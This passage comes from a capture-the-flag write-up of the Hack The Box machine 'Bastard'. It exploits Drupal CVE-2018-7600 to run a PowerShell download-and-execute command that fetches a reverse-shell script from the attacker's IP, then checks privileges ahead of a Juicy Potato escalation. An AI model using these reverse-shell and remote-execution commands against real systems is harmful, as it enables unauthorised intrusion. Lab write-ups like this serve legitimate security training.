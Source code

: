 ```
```

## Exploit
### CVE-2018-7600
With some research, we are able to find out that Drupal 7.54 is vulnerable to CVE-2018-7600, whih is a remote code execution vulnerability.

Next, we will modify the InvokePowerShellTcp.ps1 script from Nishang so that we can invoke a reverse shell by adding the following line to the end of the ps1 script.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.3 -Port 4000
```

Finally, we will download the exploit script from [here](https://github.com/pimps/CVE-2018-7600), and we can execute the exploit script to obtain a reverse shell

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/bastard/CVE-2018-7600]
└─$ python3 drupa7-CVE-2018-7600.py http://bastard.htb/ -c "powershell.exe iex(new-object net.webclient).downloadString('http://10.10.16.3:3000/Invoke-PowerShellTcp.ps1')"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-WBcjKTPltNYBweVkmnGbD5QQIhZtcSwfIhe8hIcAbho
[*] Triggering exploit to execute: powershell.exe iex(new-object net.webclient).downloadString('http://10.10.16.3:3000/Invoke-PowerShellTcp.ps1')
```
### Obtaining reverse shell
![Obtaining reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Bastard/rev_shell.png)
### Obtaining user flag
```
PS C:\Users\dimitris\Desktop> type user.txt
<Redacted User flag>
```

### Privilege Escalation to system administrator

Checking the privileges of the nt authority\iusr on the server, we realize that this user has SeImpersonatePrivilege. This means that this server might be vulnerable to Juicy Potato exploit.
```
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
